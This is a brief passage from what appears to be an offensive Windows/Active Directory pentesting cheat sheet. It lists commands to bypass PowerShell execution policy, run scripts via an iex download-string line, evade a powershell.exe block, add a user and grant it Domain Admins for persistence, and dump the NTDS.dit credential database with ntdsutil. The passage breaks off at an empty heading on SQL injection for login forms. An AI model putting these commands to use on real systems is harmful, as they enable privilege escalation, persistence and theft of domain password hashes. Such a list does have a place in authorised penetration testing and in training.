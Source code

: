 **Execution Bypass**

```bash
Set-ExecutionPolicy Unrestricted
./file.ps1
```

```bash
Import-Module script.psm1
Invoke-FunctionThatIsIntheModule
```

```bash
iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
```

**Powershell.exe blocked**

```bash
Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)
```

**Persistence**

```bash
net user username "password" /ADD
```

```bash
net group "Domain Admins" %username% /DOMAIN /ADD
```

**Gather NTDS.dit file**

```bash
ntdsutil
```

```bash
activate instance ntds
```

```bash
ifm
```

```bash
create full C:\ntdsutil
```

```bash
quit
```

```bash
quit
```

# **SQLInjections**

### Common **Injections for Login Forms:**
